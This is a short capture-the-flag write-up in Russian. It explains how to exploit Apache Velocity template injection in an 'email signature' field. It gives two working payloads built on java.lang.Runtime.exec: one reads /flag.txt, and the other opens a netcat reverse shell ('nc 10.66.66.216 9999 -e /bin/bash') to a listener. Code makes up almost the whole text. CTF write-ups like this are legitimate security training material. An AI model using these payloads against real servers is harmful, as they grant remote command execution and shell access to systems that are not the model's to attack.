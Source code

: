 Попробуйте поменять свою подпись для электронной почты.

### Writeup

1) Простой способ решения без RCE.
После регистрации вставить в поле `Change your email signature` скрипт:
```
#set( $string = "cat /flag.txt" )
#set( $process = $string.class.forName("java.lang.Runtime").getRuntime().exec($string) )
#set( $characterClass = $string.class.forName("java.lang.Character") )
#set( $processResult = $process.waitFor() )
#set( $out = $process.getInputStream() )
#set( $result = "" )
#foreach( $i in [1..$out.available()] )
#set( $char = $string.valueOf($characterClass.toChars($out.read())) )
#set( $result = "$result$char" )
#end
$result
```

2) Получение RCE:

На атакуемой машине выполнить `nc -nvlp 9999`

После регистрации вставить в поле `Change your email signature` скрипт:
```
#set( $string = "nc 10.66.66.216 9999 -e /bin/bash" )
#set( $process = $string.class.forName("java.lang.Runtime").getRuntime().exec($string) )
#set( $characterClass = $string.class.forName("java.lang.Character") )
#set( $processResult = $process.waitFor() )
#set( $out = $process.getInputStream() )
#set( $result = "" )

#foreach( $i in [1..$out.available()] )
#set( $char = $string.valueOf($characterClass.toChars($out.read())) )
#set( $result = "$result$char" )
#end
$result
```
На атакуемой машине после инициализации сессии выполнить `cat /flag.txt`
